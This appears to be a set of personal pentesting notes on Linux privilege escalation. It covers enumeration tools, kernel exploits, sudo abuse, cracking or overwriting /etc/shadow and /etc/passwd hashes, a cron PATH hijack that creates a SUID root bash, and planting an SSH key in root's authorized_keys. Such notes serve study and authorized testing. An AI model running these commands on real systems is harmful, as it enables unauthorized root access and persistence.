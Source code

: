 ```yaml
---
title: Notes | Linux Privilage Escalation
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [privilage-escalation]
permalink: /notes/system/linux-pe
---
```


> Check the [Hacktricks](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) checklist!
{: .prompt-tip }

---

# Enumeration

There are some useful tools like:
- [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
- [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

---

# Kernel Exploits 

If is an old server we can search for Kernel vulnerabilities. For example, one famous is [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs).

---

# Vulnerable software

Running `dpkg -l` to check software version.

---

# User Privileges 

It's important to check which privileges have our user.

We can try to see which commands are allowed to use:
```console
zero@pio$ sudo -l
  (user : user) NOPASSWD: /bin/echo
```
In the above example we see the variable **NOPASSWD**, which means that *user* has no password protection. We can try to change to him:
```console
zero@pio$ sudo -u user /bin/echo Hello!
  Hello!
```

Try to logging in root directly:
```console
sudo su -
```

---

# Files

### /etc/shadow
If we can read the file **/etc/shadow** we can try to break the hashes with **john**:
```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

If **/etc/shadow** is writeable we can change the passwords. First we need to generate one:
```console
$ mkpasswd -m -sha-512 [password]
```
And then replace the hash.

### /etc/passwd
If we can write in **/etc/passwd** we can change the password:
```console
$ openssl passwd [password]
```
Then we replace the **x** in the same line as the root with the hash, now we can log as root.

---

# Scheduled Tasks

We can find *crontab* in the following path:
- `/etc/crontab`{: .filepath}
- `/etc/cron.d`{: .filepath}
- `/var/spool/cron/crontabs/root`{: .filepath}

If in the **/etc/crontab** we have the PATH with the **/home/user** we can create the following script in the home:
```console
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
We need to give execution permission and wait to the crontab to execute the file. Then do
```console
$ /tmp/rootbash -p
```
Now we are root.

---

# Exposed Credentials

We can try searching for credentials, as in configuration, log or history files (**bash_history**).
Don't forget about **Password Reuse**.

---

# SSH

Each user has a `/.ssh/`{: .filepath} folder. If we can read the keys we can connect directly. Usually they are:
- `/home/user/.ssh/id_rsa`{: .filepath}
- `/root/.ssh/id_rsa`{: .filepath}

To connect using the RSA:
```console
zero@pio$ chmod 600 id_rsa
zero@pio$ ssh user@<ip> -i id_rsa
```

If we can write in the `/.ssh/`{: .filepath} we can write our public key inside the target machine, at `/home/user/.ssh/authorized_keys`{: .filepath}. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user.
First, create a new key. Copy the `key.pub` inside `/root/.ssh/authorized_keys`{: .filepath}.
```console
zero@pio$ ssh-keygen -f keys

victim@machine$ echo "ssh-rsa AAAAB...SNIP...M= user@zeropio" >> /root/.ssh/authorized_keys

zero@pio$ ssh root@10.10.10.10 -i key
root@remotehost$ 
```

---

# Tools
- [Kernel Vulnerabilities](https://github.com/jondonas/linux-exploit-suggester-2)
- [Useful practices](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [GTFOBins](https://gtfobins.github.io/)

